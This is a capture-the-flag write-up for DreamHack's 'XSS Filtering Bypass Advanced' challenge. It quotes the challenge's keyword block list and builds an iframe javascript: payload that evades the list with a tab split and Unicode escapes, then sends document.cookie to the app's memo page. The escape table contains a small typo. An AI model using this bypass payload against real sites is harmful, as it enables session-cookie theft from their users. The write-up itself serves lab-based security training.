

# XSS Filtering Bypass Advanced — DreamHack

> **Room / Challenge:** XSS Filtering Bypass Advanced (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** XSS Filtering Bypass Advanced (web)
- **Link**: `https://dreamhack.io/wargame/challenges/434`
- **Level:** `3`
- **Date:** `17-11-2025`

---

## Goal

Bypass the XSS filter and get the flag with XSS Scripting.

## My Solution

The challenge is similar to other XSS challenges in DreamHack web challenges level 2. However it has a filter:

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

From this we know that `script`, `on`, `javascript`, `window`, `self`, `this`, `document`, `location`, `(`, `)`, `&#` are blocked. We cannot use these in the params. There is a way we can tried **Unicode escape sequence** to bypass this but still injecting XSS scripting. The payload we need:

```html
<iframe src="javascript:location.href='/memo?memo='+document.cookie"></iframe>
```

In here `script`, `location` and `document` is blocked so we will need to use **Unicode escape sequence** to bypass the filter. For the `javascript` I use tab:

```
javas  cript

U+006E -> \u006E -> n
U+006F -> \u006E -> o
```

Final payload:

```html
<iframe
  src="javascri	pt:locati\u006F\u006E='/memo?memo='+\u0064ocument.cookie;"
/>
```


